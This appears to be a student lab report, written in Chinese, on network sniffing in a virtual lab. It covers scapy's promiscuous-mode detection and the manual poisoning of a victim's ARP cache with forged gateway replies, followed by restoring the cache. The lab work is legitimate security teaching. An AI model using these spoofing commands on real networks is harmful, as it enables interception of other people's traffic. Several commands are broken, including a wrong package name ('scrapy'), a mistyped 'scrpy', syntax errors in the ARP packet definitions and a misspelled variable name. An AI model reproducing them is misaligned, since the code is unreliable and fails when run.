









# 网络监听实验

## 网络拓扑

### 网络拓扑



### 节点信息

- 网关（Debian-gw）
  - MAC地址：08:00:27:ff:b8:28  /enp0s9
  - IP地址：172.16.111.1
- 攻击者（attacker-kali）
  - MAC地址：08:00:27:0e:95:b9
  - IP地址：172.16.111.141
- 受害者（victim-kali-1）
  - MAC地址：08:00:27:c5:c0:21 /eth0
  - IP地址：172.16.111.130

## 实验准备

### 安装scapy

```bash
# 安装 python3
sudo apt update
sudo apt install python3 python3-pip
# 安装scrapy
pip3 install scrapy[complete]
```



## 实验过程

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的混杂模式是否启用
ip link show eth0
```


```bash
# 在攻击者主机开启scapy 
scapy
# 直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题
# 重新尝试使用以下口令开启scapy
sudo scrpy
```



```bash
# 在scapy终端输入以下代码回车执行
pkt = promiscping("172.16.111.130")
```


```bash
# 回到受害者主机开启网卡的混杂模式
# 注意!上述输出结果应该没有PROMISC 字符串
# 手动开启该网卡混杂模式
sudo ip link set eth0 promisc on
# 此时的输出结果会多出来 PROMISC
ip link show eth0
```




```bash
# 回到攻击者主机的scapy交互式终端继续执行命令
# 观察两次输出结果的不同
pkt = promiscping("172.16.111.130")
```


受害者主机没有开启混杂模式时，用scapy的promiscping进行检测，可以看到有一个packet被记录下来，但是没有IP与MAC信息

在受害者主机开启混杂模式后，进行相同的检测可以看到相应的MAC地址与IP信息

promiscping命令：

- 混杂模式：接受所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
- 普通模式：网卡只接受发给本机的包

```bash
# 在受害者主机，手动关闭网卡的混杂模式
sudo ip link set promisc off
```



### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码均在攻击者主机 scapy 终端完成

```bash
# 获取当前局域网的网关MAC地址
# 构造一个ARP请求
arpboradcast = Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 0,pdst= ="172.16.111.1")

#查看构造好的ARP报文请求
arpboradcast.show()
```



```bash
# 伪造一个网关的ARP响应包
# 攻击者主机准备发给受害者主机 IP：172.16.111.130
# ARP响应的目的MAC地址设置为攻击者主机的MAC地址 08:00:27:0e:95:b9
arpspoofed = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.130",hwdst="08:00:27:0e:95:b9")

# 发送上述伪造的ARP响应数据包
sendp(arpspoofed)
```



此时，在受害者主机上查看ARP缓存，网关的MAC地址已被替换为攻击者主机的MAC地址

```bash
ip neigh
```



继续回到攻击者主机scapy终端

```bash
# 回复受害者主机的ARP缓存记录
## 伪装网关给受害者发送ARP响应
restoreptk1 = Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:ff:b8:28",pdst="172.16.111.130",hwdst"08:00:27:c5:c0:21")
sendp(restorepkt1,count=100,inter=0.2)

## (选做)
restorepkt2 = Ether()/ARP(op=2,pdst="172.16.111.1",hwdst="08:00:27:ff:b8:28",psrc="172.16.111.130",hwsrc="08:00:27:c5:c0:21")
```



此时，到受害者主机上准备刷新网关ARP记录

```bash
# 在受害者主机上尝试ping网关
ping 172.16.111.1
# 等ARP缓存刷新成功，退出ping
# 查看受害者主机上ARP缓存，已恢复正常网关ARP记录
ip neigh
```


## 实验中遇到的问题及解决方案

1.参考了之前师哥师姐的作业

2.在给kali-attacker开启内部网络intnet1网卡后查看其ip地址表，内部网络对应的网卡仍然没有分配ip地址

解决方法:

```
sudo vim /etc/network/interfaces
```

3.问题3：伪造的网关ARP相应包发不出去

解决方法： 在构造ARP相应包时添加数据链路层Ether()

以上两条参考了同学成功的经验

4.直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题，重新尝试使用以下口令开启scapy：sudo scrpy

## 参考资料

师哥/师姐作业：

https://github.com/CUCCS/2021-ns-public-Dot1029/tree/chap0x04/chap0x04

[网络安全电子教材]([实验 · 网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html))

[kali-linux配置nat模式连接网络_Ahuuua的博客-CSDN博客_kalinat模式怎么联网](https://blog.csdn.net/Ahuuua/article/details/108575907)
